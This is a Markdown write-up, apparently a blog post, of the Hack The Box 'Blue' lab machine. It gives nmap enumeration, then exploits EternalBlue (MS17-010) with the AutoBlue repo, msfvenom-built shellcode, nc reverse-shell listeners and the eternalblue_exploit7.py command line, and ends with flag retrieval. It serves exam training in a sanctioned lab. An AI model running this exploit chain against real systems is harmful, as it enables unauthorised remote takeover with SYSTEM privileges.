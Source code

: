 ```yaml
---
title: "Hack The Box - Blue"
date: 2020-01-08
tags: [oscp, htb, windows, eternalblue]
collection: oscp-prep
published: true
layout: single
toc: true
toc_label: Table of Contents
headline: "Exploiting Eternal Blue"
picture: /assets/htb-blue/machine_info.png
---
```

## Machine Info

![](/assets/htb-blue/machine_info.png)

## Enumeration

Initial `nmap` scans using `autorecon` show a basic layout of SMB/RPC, with the SMB service returning our target OS as Windows 7 Pro.

```
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.049s latency).
Scanned at 2020-01-08 10:21:05 EST for 155s
Not shown: 65526 closed ports
Reason: 65526 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

The great thing about `autorecon` is that it will do deeper `nmap` scans for the ports it does find. When it ran a SMB vuln check on port 445, it found the following:

```
smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

Looks like the machine is vulnerable to EternalBlue (MS17-010). While this attack vector would be cake with Metasploit, I'm going to go the non-MSF route, since I'm training for the OSCP exam.

---

## Initial Shell

### Clone the AutoBlue repository

Since we won't be using MSF for the easy win, we'll need to use some other exploits to more manually exploit the machine. The [AutoBlue repository](https://github.com/3ndG4me/AutoBlue-MS17-010) is perfect for this. Yes, it still has pre-built exploits, and automates the building of the shellcode for you. But it's still a much more manual process then Metasploit, where you literally just point and click.

To grab the repo, we can use the following command sequence. This will change our directory to `/opt`, clone the repo to `/opt/autoblue`, and navigate to the new directory.

```shell
cd /opt
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git autoblue
cd autoblue
```

Now that we have the tools we need, we can start assembling some shellcode.

### Build shellcode

Part of what makes `AutoBlue` so great is that it helps you to pre-build the shellcode with a built-in script.

From the `/opt/autoblue` directory, we need to `cd` to the `shellcode` directory, and run `./shell_prep.sh`. From there, simply enter the information requested. The script will feed the variables into `msfvenom` to generate the shellcode files. It will also merge them into a single file, which gives us a single bullet, that will handle both x86 and x64 targets.

![](/assets/htb-blue/shellcode_script.png)

You'll note that I decided to go with a stageless, non-meterpreter payload. This way I can simply run dual `nc` listeners to capture the returned shell later.

### Setup listeners

While `AutoBlue` does contain a script to setup and launch MSF listeners for you (via the `exploit/multi/handler` module), my experience with this script has been pretty poor. Since I'm running stageless and non-meterpreter, simple `nc` listeners will capture the shell just fine. Remember that since the x86 and x64 shellcode was merged, and targeted at different ports, we need to setup listeners on both ports 7500 and 7600.

We can run `nc -lvnp 7500` and `nc -lvnp 7600` to setup the listeners.

![](/assets/htb-blue/nc_listeners_norun.png)

### Run the exploit

Now that we have all the parts needed, we can run the actual exploit.

From the `/opt/autoblue` directory, we can run the `eternalblue_exploit7.py` script. The help text shows that we need to specify the target IP and shellcode file.

![](/assets/htb-blue/exploit_help.png)

We can run the command `python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin` to trigger the exploit.

![](/assets/htb-blue/eternalblue_run.png)

Taking a look at the `nc` listeners, we get a shell back on port 7600 (via the x64 shellcode)

![](/assets/htb-blue/nc_listeners.png)

Running `whoami` reveals that we're already running as `nt authority\system`, so privlege escalation won't be needed.

![](/assets/htb-blue/whoami.png)

### Loot!

All that's left is to grab the flags on the system.

We know `root.txt` is in `C:\Users\Administrator\Desktop` like normal, so we can easily grab that.

![](/assets/htb-blue/root_proof.png)

However, since we came in as `nt authority\system`, we haven't had to touch any user accounts.

If we run `dir` on `C:\Users`, we can see the name of the user we're looking for is `haris`. Sure enough, the `user.txt` flag is in `C:\Users\haris\Desktop`.

![](/assets/htb-blue/user_dir.png)

![](/assets/htb-blue/user_proof.png)